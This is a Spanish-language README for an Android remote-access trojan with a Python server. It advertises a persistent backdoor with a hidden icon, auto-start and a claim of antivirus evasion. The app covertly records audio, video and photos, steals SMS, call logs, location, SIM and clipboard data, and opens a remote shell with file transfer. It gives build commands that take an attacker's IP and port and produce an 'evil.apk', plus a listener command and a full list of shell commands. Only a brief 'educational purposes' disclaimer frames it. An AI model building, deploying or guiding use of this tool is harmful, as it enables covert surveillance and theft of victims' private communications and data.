 **Descarga de responsabilidad**: este software está destinado únicamente a fines educativos. No soy responsable de ningún uso malicioso de la aplicación.
# AndroTRO 


[![GitHub followers](https://github.com/Plumst-37)]

AndroTro es una herramienta diseñada para controlar el sistema Android de forma remota y recuperar información del mismo. AndroTro es una aplicación cliente/servidor desarrollada en Java Android para el lado del cliente y el Servidor está en Python.

##### AndroTRO funcionará en dispositivos desde Android 4.1 (Jelly Bean) hasta Android 9.0 (Oreo) (API 16 a API 28)

> AndroTRO también funciona en Android 10 (Q), pero algunos de los comandos del intérprete serán inestables. 

## Screenshots

![AndroTro](Capturas de pantalla/5.jpg "AndroTro en acción")
## Características de AndroTro
* Puerta trasera completamente persistente
* ~~Totalmente indetectable por cualquier escáner antivirus [VirusTotal](https://www.virustotal.com/gui/file/e900b5d37ad8c8f79ca000b148253af04696a85fdfc245861cfb226dd86562df/detection)
* Icono invisible al instalar
* APK liviano que se ejecuta 24*7 en segundo plano
* La aplicación se inicia automáticamente al iniciar
* Puede grabar audio, video y tomar fotografías desde ambas cámaras.
* Explorar registros de llamadas y registros de SMS
* Obtener la ubicación actual, detalles de la tarjeta SIM, IP, dirección MAC del dispositivo


## Requisitos
  AndroTRO requiere Python3 y JAVA (o Android Studio)

## Instalacion
```
git clone https://github.com/Plumst-37/AndroTro.git
cd AndroTro
pip install -r requirements.txt
```
#### Nota:
Al clonar el repositorio usando Git bash en Windows, es posible que obtenga el siguiente error:
> error: no se puede crear el archivo \<nombre de archivo>: nombre de archivo demasiado largo

Esto se debe a que Git tiene un límite de 4096 caracteres para un nombre de archivo, excepto en Windows cuando Git se compila con msys. Utiliza una versión anterior de la API de Windows y hay un límite de 260 caracteres para un nombre de archivo.

Puede evitar esto configurando `core.longpaths` en `true`.

> git config --system core.longpaths verdadero

Debes ejecutar Git bash con privilegios de administrador.


### Modos disponibles
* `--build` - para construir la apk de Android
* `--ngrok` - para usar el túnel ngrok (a través de Internet)
* `--shell`: obtención de un shell interactivo del dispositivo

### modo `construir`

```
Uso:
  python3 androTRO.py --build --ngrok [banderas]
  Banderas:
    -p, --port Número de puerto del atacante (opcional, por defecto está configurado en 8000)
    -o, --output Nombre del archivo apk (opcional, por defecto está configurado en "karma.apk")
    -icon, --icon Icono visible después de instalar apk (de forma predeterminada está configurado como oculto)
```

```
Uso:
  python3 androTRO.py --build [banderas]
  Banderas:
    -i, --ip Dirección IP del atacante (obligatoria)
    -p, --port Número de puerto del atacante (obligatorio)
    -o, --output Nombre del archivo apk (opcional)
    -icon, --icon Icono visible después de instalar apk (de forma predeterminada está configurado como oculto).
```

O puede compilar manualmente el apk importando la carpeta [Código de Android](Android_Code) a Android Studio y cambiando la dirección IP y el número de puerto en [config.java](Android_Code/app/src/main/java/com/example/reverseshell2 /config.java) y luego puede generar el apk firmado desde `Android Studio -> Build -> Generate Signed APK(s)`
### modo `shell`
```
Uso:
  python3 androTRO.py --shell [banderas]
  Banderas:
    -i, --ip Dirección IP de Listner
    -p, --port Número de puerto de Listner
```
Después de ejecutar el modo `shell`, obtendrás un intérprete del dispositivo.

Comandos que se pueden ejecutar en el intérprete.
```
    deviceInfo                 --> devuelve información básica del dispositivo
    camList                    --> devuelve ID de cámara  
    takepic [cameraID]         --> Toma una foto de la cámara
    startVideo [cameraID]      --> comienza a grabar el video
    stopVideo                  --> deja de grabar el video y devuelve el archivo de video
    startAudio                 --> comienza a grabar el audio
    stopAudio                  --> deja de grabar el audio
    getSMS [inbox|sent]        --> devuelve sms de la bandeja de entrada o sms enviados en un archivo
    getCallLogs                --> devuelve registros de llamadas en un archivo
    shell                      --> inicia un shell sh del dispositivo
    vibrate [number_of_times]  --> hacer vibrar el dispositivo varias veces
    getLocation                --> devolver la ubicación actual del dispositivo
    getIP                      --> devuelve la ip del dispositivo
    getSimDetails              --> devuelve los detalles de todos los sim del dispositivo
    clear                      --> borra la pantalla
    getClipData                --> devolver el texto guardado actualmente desde el portapapeles
    getMACAddress              --> devuelve la dirección mac del dispositivo
    exit                       --> salir
```
En el shell sh hay algunos subcomandos.
```
    get [full_file_path] --> descarga el archivo a la máquina local (tamaño de archivo de hasta 15 MB)
    uploads [nombre de archivo] --> carga el archivo al dispositivo Android
```

## Ejemplos

* Para compilar el apk usando ngrok, que también configurará el listner:

``python3 androRAT.py --build --ngrok -o evil.apk``

* Para construir el apk usando la IP y el puerto deseados:

``python3 androRAT.py --build -i 192.169.x.x -p 8000 -o evil.apk``

* Para conseguir el intérprete:

``python3 androRAT.py --shell -i 0.0.0.0 -p 8000``

## Ejemplos de intérpretes

* Generando APK
<p align="centro">
  <img src="Screenshots/6.JPG" width="800"/>
</p>


## HACER
* ~~ Soporte de Ngrok ~~
* Configurar multicliente
* Agregar comando de captura de pantalla

